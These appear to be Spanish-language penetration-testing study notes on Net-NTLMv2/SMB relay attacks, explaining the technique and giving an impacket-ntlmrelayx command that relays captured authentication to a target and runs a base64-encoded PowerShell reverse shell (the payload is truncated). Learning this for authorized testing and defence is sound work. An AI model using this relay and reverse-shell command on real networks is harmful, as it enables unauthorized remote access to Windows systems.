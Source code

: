 # Net-NTLMv2 / SMB Relay Attacks
- Este ataquee se basa en el uso de NTLMv2 para la autenticación de SMB, que es un protocolo de red utilizado para compartir archivos e impresoras en redes Windows. El ataque implica capturar el hash NTLMv2 y luego usarlo para autenticar a un usuario en otro sistema, lo que permite al atacante acceder a recursos protegidos sin necesidad de conocer la contraseña real del usuario.
- Sirve para cuando no somos capaces de crackear el hash NTLMv2, pero tenemos acceso a la red y podemos hacer un relay de la autenticación a otro sistema.

----

- [Más info](https://medium.com/@aniswersighni/active-directory-attacks-smb-relay-attacks-ea7d8cf9a8f8)
- [Fuente de Microsoft](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2008/ms08-068)

----

## NTLMv2 Relay con Impacket
- Utilizamos el script de impacket ntlmrelayx para realizar el ataque.
- Con la flag `--no-http-server` evitamos que el script levante un servidor HTTP, ya que no lo necesitamos.
- `impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.212 -c "powershell -enc JABjAGwAaQBlAG4AdA..."`
    - `-smb2support` habilita el soporte para SMBv2, lo que puede ser necesario en algunas configuraciones de red.
- `-t` especifica el objetivo al que queremos enviar la autenticación.
- `-c` especifica el comando que queremos ejecutar en el objetivo.
    - `powershell -enc JABjAGwAaQBlAG4AdA...` es el comando que queremos ejecutar en el objetivo. En este caso, estamos utilizando PowerShell para ejecutar un comando codificado en Base64, en este caso una reverse shell